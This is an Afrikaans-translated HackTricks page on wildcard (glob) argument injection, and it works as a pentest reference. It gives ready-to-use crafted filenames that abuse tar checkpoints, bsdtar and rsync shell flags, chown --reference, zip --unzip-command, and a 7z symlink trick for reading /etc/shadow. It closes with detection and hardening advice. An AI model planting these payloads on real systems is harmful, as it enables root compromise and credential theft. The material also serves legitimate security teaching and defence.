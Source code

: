 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (ook bekend as *glob*) **argumentinjekie** gebeur wanneer 'n bevoorregte skrif 'n Unix-binary soos `tar`, `chown`, `rsync`, `zip`, `7z`, … met 'n ongekwote wildcard soos `*` uitvoer. 
> Aangesien die shell die wildcard **voor** die uitvoering van die binary uitbrei, kan 'n aanvaller wat lêers in die werksgids kan skep, lêername saamstel wat met `-` begin sodat dit as **opsies in plaas van data** geïnterpreteer word, wat effektief arbitrêre vlae of selfs opdragte smokkel. 
> Hierdie bladsy versamel die nuttigste primitiewe, onlangse navorsing en moderne opsporings vir 2023-2025.

## chown / chmod

Jy kan **die eienaar/groep of die toestemmingsbits van 'n arbitrêre lêer kopieer** deur die `--reference` vlag te misbruik:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Wanneer root later iets soos uitvoer:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` word ingesluit, wat veroorsaak dat *alle* ooreenstemmende lêers die eienaarskap/permitte van `/root/secret``file` erf.

*PoC & hulpmiddel*: [`wildpwn`](https://github.com/localh0t/wildpwn) (gecombineerde aanval).
Sien ook die klassieke DefenseCode papier vir besonderhede.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Voer arbitrêre opdragte uit deur die **checkpoint** kenmerk te misbruik:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Sodra root `tar -czf /root/backup.tgz *` uitvoer, word `shell.sh` as root uitgevoer.

### bsdtar / macOS 14+

Die standaard `tar` op onlangse macOS (gebaseer op `libarchive`) implementeer *nie* `--checkpoint` nie, maar jy kan steeds kode-uitvoering bereik met die **--use-compress-program** vlag wat jou toelaat om 'n eksterne kompressor te spesifiseer.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Wanneer 'n bevoorregte skrif `tar -cf backup.tar *` uitvoer, sal `/bin/sh` begin.

---

## rsync

`rsync` laat jou toe om die afstandshell of selfs die afstandsbinary te oorskry via opdraglynvlaggies wat met `-e` of `--rsync-path` begin:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
As root later argiveer die gids met `rsync -az * backup:/srv/`, die ingeslote vlag laat jou shell op die afstand kant ontstaan.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` modus).

---

## 7-Zip / 7z / 7za

Selfs wanneer die bevoorregte skrip *defensief* die wildcard met `--` voorafgaan (om opsie-parsing te stop), ondersteun die 7-Zip formaat **lêerlys lêers** deur die lêernaam met `@` vooraf te gaan. Om dit te kombineer met 'n symlink laat jou toe om *arbitraire lêers te exfiltreer*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
As die root iets soos uitvoer:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip sal probeer om `root.txt` (→ `/etc/shadow`) as 'n lêerlys te lees en sal uitval, **die inhoud na stderr druk**.

---

## zip

`zip` ondersteun die vlag `--unzip-command` wat *woordeliks* aan die stelselshell oorgedra word wanneer die argief getoets sal word:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject die vlag via 'n vervaardigde lêernaam en wag vir die bevoorregte rugsteun-skrip om `zip -T` (toets argief) op die resultaat lêer aan te roep.

---

## Bykomende binaire wat kwesbaar is vir wildcard-inspuiting (2023-2025 vinnige lys)

Die volgende opdragte is in moderne CTFs en werklike omgewings misbruik. Die payload word altyd geskep as 'n *lêernaam* binne 'n skryfbare gids wat later met 'n wildcard verwerk sal word:

| Binaire | Vlag om te misbruik | Effek |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrêre `@file` | Lees lêerinhoud |
| `flock` | `-c <cmd>` | Voer opdrag uit |
| `git`   | `-c core.sshCommand=<cmd>` | Opdrag uitvoering via git oor SSH |
| `scp`   | `-S <cmd>` | Begin arbitrêre program in plaas van ssh |

Hierdie primitiewe is minder algemeen as die *tar/rsync/zip* klassiekers, maar dit is die moeite werd om te kyk wanneer jy jag.

---

## Opsporing & Versterking

1. **Deaktiveer shell globbing** in kritieke skripte: `set -f` (`set -o noglob`) voorkom wildcard uitbreiding.
2. **Aanhaal of ontsnap** argumente: `tar -czf "$dst" -- *` is *nie* veilig nie — verkies `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Expliciete paaie**: Gebruik `/var/www/html/*.log` in plaas van `*` sodat aanvallers nie susterlêers kan skep wat met `-` begin nie.
4. **Minste voorreg**: Voer rugsteun/onderhoud take uit as 'n nie-bevoorregte diensrekening in plaas van root wanneer moontlik.
5. **Monitering**: Elastic se voorafgeboude reël *Potensiële Shell via Wildcard-inspuiting* soek na `tar --checkpoint=*`, `rsync -e*`, of `zip --unzip-command` onmiddellik gevolg deur 'n shell-kind proses. Die EQL-navraag kan aangepas word vir ander EDRs.

---

## Verwysings

* Elastic Security – Potensiële Shell via Wildcard-inspuiting Gedetecteerde reël (laas opgedateer 2025)
* Rutger Flohil – “macOS — Tar wildcard-inspuiting” (18 Des 2024)

{{#include ../../banners/hacktricks-training.md}}
